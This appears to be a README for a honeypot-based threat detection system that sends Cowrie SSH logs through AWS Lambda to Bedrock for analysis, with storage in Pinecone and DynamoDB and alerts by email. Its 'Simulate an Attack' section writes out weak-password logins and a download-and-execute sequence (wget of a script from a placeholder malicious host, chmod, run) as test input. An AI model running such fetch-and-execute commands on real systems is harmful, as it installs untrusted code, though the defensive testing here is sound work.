

# Threat Detection System with AWS Bedrock and Pinecone

Automated threat detection system using a honeypot, AWS Bedrock for AI analysis, and Pinecone for vector storage.

## 🎥 Live Demo

**Watch the 5-minute live demonstration:**

[](https://youtu.be/ZTbJbibylAc)

**[▶️ Watch Demo Video](https://youtu.be/ZTbJbibylAc)**

**What you'll see:**
- Live honeypot attack simulation
- Real-time AI threat analysis with AWS Bedrock
- Automated email alerts for high-severity threats
- Complete AWS console walkthrough

## Architecture



```
Honeypot → S3 → Lambda → Bedrock (Claude) → Pinecone + DynamoDB + SNS + CloudWatch
```

1. **Honeypot (Cowrie)** captures attack data
2. **S3 uploads** trigger Lambda processing
3. **Claude AI** analyzes threat severity and type
4. **Pinecone** stores vectors for similarity search
5. **DynamoDB** stores detailed threat analysis
6. **SNS** sends alerts for high-severity threats
7. **CloudWatch** monitors metrics and triggers alarms

## Prerequisites

- AWS Account with Lambda, S3, DynamoDB, Bedrock, IAM, EC2 access
- Pinecone account with an index named `docqa-index`
- AWS CLI configured
- Node.js and npm (for Serverless Framework)
- Python 3.11

## Quick Start

### 1. Setup Local Environment

```bash
# Clone the repository
git clone https://github.com/yourusername/threat-detect.git
cd threat-detect

# Create and activate virtual environment
python3 -m venv venv
source venv/bin/activate

# Install Python dependencies
pip install -r requirements.txt

# Install Serverless Framework
npm install -g serverless
npm install --save-dev serverless-python-requirements
```

### 2. Setup AWS Infrastructure

```bash
# Create S3 bucket
aws s3 mb s3://creditcardd --region us-east-1
aws s3api put-bucket-versioning --bucket creditcardd --versioning-configuration Status=Enabled

# Create DynamoDB table
aws dynamodb create-table --table-name ThreatsTable \
    --attribute-definitions AttributeName=event_id,AttributeType=S \
    --key-schema AttributeName=event_id,KeyType=HASH \
    --billing-mode PAY_PER_REQUEST

# Store Pinecone API key in Secrets Manager
aws secretsmanager create-secret --name pinecone/credentials \
    --secret-string '{"apiKey":"YOUR_PINECONE_API_KEY"}'

# Create SNS topic for alerts
aws sns create-topic --name threat-alerts --region us-east-1

# Subscribe to the SNS topic
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:YOUR_ACCOUNT_ID:threat-alerts \
    --protocol email \
    --notification-endpoint your-email@example.com \
    --region us-east-1 \
    --output text
```

### 3. Setup Pinecone

```bash
# Create a Pinecone index (via Pinecone console or API)
# Index name: docqa-index
# Dimensions: 1536
# Metric: cosine
```

### 4. Deploy Lambda Function

```bash
# Update serverless.yml with your account details
# - Update SNS_TOPIC_ARN with your actual ARN
# - Update PINECONE_SECRET_ARN with your actual ARN

# Deploy the Lambda function
npx sls deploy
```

### 5. Launch Honeypot

```bash
# Create security group for honeypot
aws ec2 create-security-group \
    --group-name honeypot-sg \
    --description "Security group for honeypot" \
    --vpc-id YOUR_VPC_ID \
    --region us-east-1

# Add inbound rules
aws ec2 authorize-security-group-ingress \
    --group-id sg-XXXXXXXXXX \
    --protocol tcp \
    --port 22 \
    --cidr 0.0.0.0/0 \
    --region us-east-1

aws ec2 authorize-security-group-ingress \
    --group-id sg-XXXXXXXXXX \
    --protocol tcp \
    --port 2222 \
    --cidr 0.0.0.0/0 \
    --region us-east-1

# Create IAM role for EC2
aws iam create-role \
    --role-name HoneypotS3Role \
    --assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ec2.amazonaws.com"},"Action":"sts:AssumeRole"}]}' \
    --region us-east-1

# Attach S3 policy to role
aws iam attach-role-policy \
    --role-name HoneypotS3Role \
    --policy-arn arn:aws:iam::aws:policy/AmazonS3FullAccess \
    --region us-east-1

# Create instance profile
aws iam create-instance-profile \
    --instance-profile-name HoneypotS3Profile \
    --region us-east-1

# Add role to instance profile
aws iam add-role-to-instance-profile \
    --instance-profile-name HoneypotS3Profile \
    --role-name HoneypotS3Role \
    --region us-east-1

# Launch EC2 instance with Cowrie
aws ec2 run-instances \
    --image-id ami-0c7217cdde317cfec \
    --instance-type t2.micro \
    --key-name YOUR_KEY_PAIR \
    --security-group-ids sg-XXXXXXXXXX \
    --user-data file://cowrie-simple-setup.sh \
    --iam-instance-profile Name=HoneypotS3Profile \
    --region us-east-1
```

### 6. Verify Setup

```bash
# Check that Lambda function is deployed
aws lambda list-functions --query "Functions[?contains(FunctionName, 'threat-detect')]" --output table

# Check that S3 bucket is created
aws s3 ls s3://creditcardd/

# Check that DynamoDB table is created
aws dynamodb describe-table --table-name ThreatsTable --output table

# Check that SNS topic is created
aws sns list-topics --output table
```

## Testing

### Verify Honeypot Setup
```bash
# SSH into the EC2 instance
ssh -i ~/.ssh/keys/YOUR_KEY_PAIR.pem ubuntu@YOUR_EC2_IP

# Check Cowrie status
sudo -u cowrie /home/cowrie/cowrie/bin/cowrie status

# Check log files
sudo ls -la /home/cowrie/cowrie/var/log/cowrie/
```

### Simulate an Attack
```bash
# From your local machine
ssh -p 2222 root@YOUR_EC2_IP

# Try common passwords like:
# password123
# admin
# root

# After successful login, try commands like:
ls -la
wget http://malicious.example.com/malware.sh
chmod +x malware.sh
./malware.sh
```

### Verify Processing Pipeline
```bash
# Check S3 for uploaded logs
aws s3 ls s3://creditcardd/cowrie-logs/

# Check DynamoDB for processed threats
aws dynamodb scan --table-name ThreatsTable --limit 5 --output table

# Check CloudWatch metrics
aws cloudwatch get-metric-statistics \
    --namespace ThreatDetection \
    --metric-name BedrockInvocationCount \
    --statistics Sum \
    --period 3600 \
    --start-time "$(date -u -v-1d +"%Y-%m-%dT%H:%M:%SZ")" \
    --end-time "$(date -u +"%Y-%m-%dT%H:%M:%SZ")" \
    --region us-east-1
```

### Run Unit Tests
```bash
# Activate virtual environment
source venv/bin/activate

# Run all tests
pytest

# Run specific test file
pytest tests/test_parse_response.py -v

# Test the full pipeline
python test_pipeline.py
```

## Enhanced Features

### Alerting & Visualization

- **SNS Alerts** for high-severity threats (threshold: 75)
  ```bash
  aws sns create-topic --name threat-alerts
  aws sns subscribe --topic-arn arn:aws:sns:us-east-1:YOUR_ACCOUNT_ID:threat-alerts \
      --protocol email --notification-endpoint your-email@example.com
  ```

- **CloudWatch Dashboard** for metrics visualization
  ```bash
  python dashboard/create_dashboard.py
  ```

### Metrics & Monitoring

- **Custom Metrics**: Invocation time, token usage, cost estimates
- **CloudWatch Alarms**: Cost thresholds, Lambda errors, high-severity threats
  ```bash
  python dashboard/create_alarms.py
  ```

### Testing Scripts

- `test_all.sh` - Comprehensive system test
- `test_high_severity.sh` - Tests threat detection
- `test_sns.sh` - Tests notifications
- `test-honeypot.sh` - Verifies honeypot setup

## Project Structure

- `bedrock_handler/` - AI analysis code
- `pinecone_handler/` - Vector storage code
- `prototype/` - Utility code
- `payloads/` - Test data
- `tests/` - Unit tests
- `dashboard/` - CloudWatch resources
- `serverless.yml` - Deployment config

## Cleanup

```bash
npx sls remove
aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
aws dynamodb delete-table --table-name ThreatsTable
aws s3 rm s3://creditcardd --recursive
aws s3api delete-bucket --bucket creditcardd
```

## Troubleshooting

### Common Issues

#### S3 Access Denied
- **Error**: `User is not authorized to perform: s3:ListBucket or s3:GetObject`
- **Solution**: Check IAM permissions for both `s3:GetObject` (on objects) and `s3:ListBucket` (on bucket)
- **Fix**:
  ```bash
  # Update Lambda IAM role with correct permissions
  aws iam attach-role-policy \
      --role-name YOUR_LAMBDA_ROLE \
      --policy-arn arn:aws:iam::aws:policy/AmazonS3ReadOnlyAccess
  ```

#### SNS Subscription Issues
- **Problem**: Not receiving email notifications
- **Solution**: Check spam folder, verify subscription confirmation
- **Fix**:
  ```bash
  # List subscriptions to verify status
  aws sns list-subscriptions-by-topic \
      --topic-arn arn:aws:sns:us-east-1:YOUR_ACCOUNT_ID:threat-alerts
  
  # Resend confirmation if needed
  aws sns subscribe \
      --topic-arn arn:aws:sns:us-east-1:YOUR_ACCOUNT_ID:threat-alerts \
      --protocol email \
      --notification-endpoint your-email@example.com
  ```

#### CloudWatch Metrics Not Appearing
- **Problem**: Custom metrics not showing in CloudWatch
- **Solution**: Ensure Lambda has `cloudwatch:PutMetricData` permission
- **Fix**:
  ```bash
  # Add CloudWatch permissions to Lambda role
  aws iam attach-role-policy \
      --role-name YOUR_LAMBDA_ROLE \
      --policy-arn arn:aws:iam::aws:policy/CloudWatchFullAccess
  ```

#### Bedrock API Access Issues
- **Problem**: Lambda fails with Bedrock access errors
- **Solution**: Ensure your AWS account has access to Bedrock and the Claude model
- **Fix**: Request access to Bedrock in the AWS console if needed

#### Parser Not Extracting Information
- **Problem**: DynamoDB records have null values for score, threat, or explanation
- **Solution**: The AI response format may have changed
- **Fix**: Update the `parse_raw` function in `prototype/parse_response.py` to handle the new format

### Verification Steps

To verify all components are working correctly:

1. Run the test pipeline script:
   ```bash
   source venv/bin/activate && python test_pipeline.py
   ```

2. Check for these indicators of success:
   - No errors in the output
   - Score, threat, and explanation are correctly extracted
   - Embedding is generated with 1536 dimensions

For detailed documentation, see the `architecture.md` file.